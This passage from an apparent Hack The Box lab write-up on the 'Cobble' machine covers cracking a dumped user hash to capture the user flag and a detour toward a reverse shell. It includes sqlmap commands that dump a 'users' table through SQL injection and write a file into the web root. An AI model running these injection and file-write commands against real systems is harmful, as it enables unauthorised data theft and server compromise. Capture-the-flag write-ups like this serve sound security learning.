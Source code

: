 ![sqlmap3](assets/htb-cobble-12.png)

Note that `evil@sal.htb` was my account, so this databse is useless for now, it's not of internal shit.
We won't attempt to crack the admin's password, it may even be an account created by another player, not the actual DB admin. 

>This was my greatest mistake. What you've just read is me on my way to waste hours trying to get a reverse shell. Which was successful at the end, but literally useless because the objective was to crack the `cobble` user hash and SSH into it. 
{: .prompt-danger }

Using crackstation, few seconds and we got the user `cobble` and the user flag.
>User Flag captured!
{: .prompt-tip }


## Pre-User Time-Wasting
>These are some of what I did to gain a rev shell back to my machine. Switching the vpns, UDP to TCP...etc but banging my head against the wall aren't included.

```bash 
sqlmap -r request.txt -p url -D vote -T users --dump --batch --no-cast
```
Now we'll go for testing an upload vulnerability.
First with a dummy file: 

```bash 
echo test > /tmp/test.txt
```

```bash
sqlmap -r request.txt -p url --file-write=/tmp/test.txt --file-dest=/var/www/html/test.txt
```
![sqlmapupload1](assets/htb-cobble-13.png)
